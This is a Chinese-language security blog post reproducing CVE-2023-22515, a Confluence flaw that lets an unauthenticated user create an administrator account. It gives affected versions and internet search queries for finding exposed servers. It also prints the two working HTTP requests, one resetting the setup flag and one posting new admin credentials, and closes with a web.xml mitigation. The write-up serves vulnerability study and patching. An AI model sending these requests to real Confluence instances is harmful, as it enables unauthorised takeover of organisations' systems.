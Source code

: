 #  CVE-2023-22515：Confluence权限提升漏洞

原创 Locks_  [ Timeline Sec ](javascript:void\(0\);)

**Timeline Sec** ![]()

微信号 TimelineSec

功能介绍 学网络安全必备，专注于最新漏洞分析与复现，同时分享最新安全资讯。（Timeline Sec网络安全团队官方公众号）

____

___发表于_

收录于合集 #漏洞复现文章合集 140个

> 关注我们❤️，添加星标🌟，一起学安全！  
> 作者：Locks_@Timeline Sec  
> 本文字数：926  
> 阅读时长：2～3min  
> 声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
>

## 0x01 简介  

Confluence是一个专业的企业知识管理与协同软件，也可以用于构建企业wiki。使用简单，它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。

## 0x02 漏洞概述  

 **漏洞编号：CVE-2023-22515**

攻击者可以利用有访问权限的Confluence Data Center and
Server实例漏洞在未授权的情况下创建Confluence管理员用户并以管理员权限进入Confluence后台。

## 0x03 影响版本  

8.0.0 <= Confluence Data Center and Confluence Server <= 8.0.4

8.1.0 <= Confluence Data Center and Confluence Server <= 8.1.4

8.2.0 <= Confluence Data Center and Confluence Server <= 8.2.3

8.3.0 <= Confluence Data Center and Confluence Server <= 8.3.2

8.4.0 <= Confluence Data Center and Confluence Server <= 8.4.2

8.5.0 <= Confluence Data Center and Confluence Server <= 8.5.1

## 0x04 环境搭建  

fofa：`app="Atlassian-Confluence"`

hunter：`app.name="Confluence"`

## 0x05 漏洞复现  

漏洞URL:

    
    
    http://localhost/login.action?logout=true  
    

第一次发包：发送首次请求包为：

    
    
    GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1  
    

![]()

第二次发包：添加管理员账号

    
    
    POST /setup/setupadministrator.action HTTP/1.1  
    Host: localhost  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0  
    Accept-Encoding: gzip, deflate  
    Accept: */*  
    Connection: close  
    X-Atlassian-Token: no-check  
    Content-Length: 122  
    Content-Type: application/x-www-form-urlencoded  
      
    username=newadmin1&fullName=newadmin1&email=1234567123@qq.com&password=newPassword1&confirm=newPassword1&setup-next-button=Next  
    

![]()  
  
![]()

凭借新添加的账号进行登录

![]()

利用思路：

1、利用 ParametersInterceptor 的属性覆盖绕过  **/setup/** * 路由的限制，访问
`/setup/setupadministrator.action`  添加管理员

2、找到能触发 ParametersInterceptor 的 action，然后覆盖 setupComplete 绕过
SetupCheckInterceptor 对  **/setup/** * 路由的限制，然后访问
`/setup/setupadministrator.action`  添加管理员。

## 0x06 修复方式  

 **官方修复方案：**

建议您更新当前系统或软件至最新版，完成漏洞的修复。

 **临时缓解方案:**

1、修改 //confluence/WEB-INF/web.xml 文件，并添加以下内容（就在文件末尾的  标签之前）：

    
    
    <security-constraint>  
          <web-resource-collection>  
            <url-pattern>/setup/*</url-pattern>  
          <http-method-omission>*</http-method-omission>  
        </web-resource-collection>  
          <auth-constraint />  
      </security-constraint>  
    

2、重新启动 Confluence

## 参考链接  

https://mp.weixin.qq.com/s/99quAfbrwkXS40MqMUBY2w

 **推荐服务**

![]()

 **历史漏洞**

[
CVE-2019-3394](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247483714&idx=1&sn=4a67ecbce88d9cc135ede2de6e0bc240&chksm=903927b2a74eaea4a67627c698bd67ce51984e58e8eacdf1d538b6ed2e69c34560167338fa69&scene=21#wechat_redirect)  
CVE-2019-3396  
CVE-2019-3398  
CVE-2021-26084  
CVE-2022-26134  
[CVE-2022-26138](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247490609&idx=1&sn=eb47834f70a7608f59739d1331c89598&chksm=90393ac1a74eb3d764e9378b2cead991968dc10f4c7accd38d022eb78f30e5977f20d3abd03e&scene=21#wechat_redirect)  

  

 **后台功能**  

回复【1】领取新人学习资料  
回复【2】进入漏洞查询功能  
回复【3】获取加群方式  
回复【4】领取安全电子书籍  

回复【5】进入SRC-QQ交流群

  

 **商务合作  
**

[ Timeline
Sec团队可合作项目清单](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247491949&idx=1&sn=5fd239d21a4a07859707b810c2a431ab&chksm=903ac79da74d4e8bf12c52fa3f3a0b14a9fbca35472362d4c40a4d9a6968a16e8d449896889c&scene=21#wechat_redirect)  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

